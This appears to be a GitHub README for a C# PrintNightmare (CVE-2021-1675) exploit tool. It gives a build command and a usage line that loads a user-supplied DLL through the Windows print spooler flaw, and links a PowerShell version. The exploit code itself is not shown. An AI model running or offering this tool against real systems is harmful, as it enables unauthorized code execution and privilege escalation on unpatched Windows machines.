 # CVE-2021-1675
C# PrintNightmare for .NET Framework 3.5  

This is a "bring your own dll" project. So once you have that, just build and specify the dll in the command-line arguments.

## Build  
You can build yourself with `C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe -out:SharpPN.exe C:\Path\to\Program.cs` or by opening the .sln file with Visual Studio.

## Usage  
`.\SharpPN.exe -DLL C:\path\to\your\dll`  

### References  
CalebStewart's PowerShell Implementation: https://github.com/calebstewart/CVE-2021-1675
